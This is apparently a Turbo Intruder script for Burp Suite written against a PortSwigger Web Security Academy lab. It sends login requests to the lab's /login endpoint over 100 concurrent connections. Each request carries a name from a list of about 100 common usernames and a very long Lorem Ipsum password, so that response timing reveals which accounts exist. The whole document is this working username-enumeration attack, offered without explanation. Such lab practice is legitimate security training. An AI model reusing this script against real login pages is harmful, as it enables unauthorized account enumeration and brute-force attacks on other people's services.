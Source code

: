 def queueRequests(target, _):
    engine = RequestEngine(
        endpoint="https://0a1900e404bf324c8682fdcc00e50010.web-security-academy.net:443",
        concurrentConnections=100,
        requestsPerConnection=100,
        engine=Engine.BURP
    )

    name_list = ["carlos", "root", "admin", "test", "guest", "info", "adm", "mysql", "user", "administrator", "oracle", "ftp", "pi", "puppet", "ansible", "ec2-user", "vagrant", "azureuser", "academico", "acceso", "access", "accounting", "accounts", "acid", "activestat", "ad", "adam", "adkit", "admin", "administracion", "administrador", "administrator", "administrators", "admins", "ads", "adserver", "adsl", "ae", "af", "affiliate", "affiliates", "afiliados", "ag", "agenda", "agent", "ai", "aix", "ajax", "ak", "akamai", "al", "alabama", "alaska", "albuquerque", "alerts", "alpha", "alterwind", "am", "amarillo", "americas", "an", "anaheim", "analyzer", "announce", "announcements", "antivirus", "ao", "ap", "apache", "apollo", "app", "app01", "app1", "apple", "application", "applications", "apps", "appserver", "aq", "ar", "archie", "arcsight", "argentina", "arizona", "arkansas", "arlington", "as", "as400", "asia", "asterix", "at", "athena", "atlanta", "atlas", "att", "au", "auction", "austin", "auth", "auto", "autodiscover"]
    
    attack_request = """POST /login HTTP/2
Host: 0a1900e404bf324c8682fdcc00e50010.web-security-academy.net
Content-Length: 29

username=%s&password=Sedutperspiciatisundeomnisistenatuserrorsitvoluptatemaccusantiumdoloremquelaudantium,totamremaperiam,eaqueipsaquaeabilloinventoreveritatisetquasiarchitectobeataevitaedictasuntexplicabo.Nemoenimipsamvoluptatemquiavoluptassitaspernaturautoditautfugit,sedquiaconsequunturmagnidoloreseosquirationevoluptatemsequinesciunt.Nequeporroquisquamest,quidoloremipsumquiadolorsitamet,consectetur,adipiscivelit,sedquianonnumquameiusmoditemporainciduntutlaboreetdoloremagnamaliquamquaeratvoluptatem.Utenimadminimaveniam,quisnostrumexercitationemullamcorporissuscipitlaboriosam,nisiutaliquidexeacommodiconsequatur?Quisautemveleumiurereprehenderitquiineavoluptatevelitessequamnihilmolestiaeconsequatur,velillumquidoloremeumfugiatquovoluptasnullapariatur?"""

    for names in name_list:
       for _ in range(5):
            engine.queue(attack_request % names)

def handleResponse(req, _):
    table.add(req)